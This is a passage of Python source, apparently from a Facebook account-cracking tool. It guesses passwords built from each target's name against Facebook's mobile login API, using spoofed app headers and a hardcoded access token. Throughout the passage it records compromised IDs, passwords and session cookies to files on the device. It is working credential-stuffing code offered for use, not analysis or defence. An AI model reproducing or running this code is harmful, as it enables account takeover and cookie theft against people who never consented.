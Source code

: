 'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',
'X-FB-Client-IP': 'True',
'X-FB-Server-Cluster': 'True',
'x-fb-connection-token': 'd29d67d37eca387482a8a5b740f84f62',}
                q = session.post("https://b-graph.facebook.com/auth/login",data=data, headers=headers, allow_redirects=False).json()
                if 'session_key' in q:
                    ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"]);ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-");cookie = f"sb={ssbb};{ckkk}"
                    print(f"\r{R} [SSB-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/SSB_OK_ids_M2.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/SSB_iDs_COOKiEs_M2.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                    #  print(f"\r{A} [SSB-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/SSB_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodC(sid, name, ps)
            
    def methodB(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[SSB] {loop} | M2 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",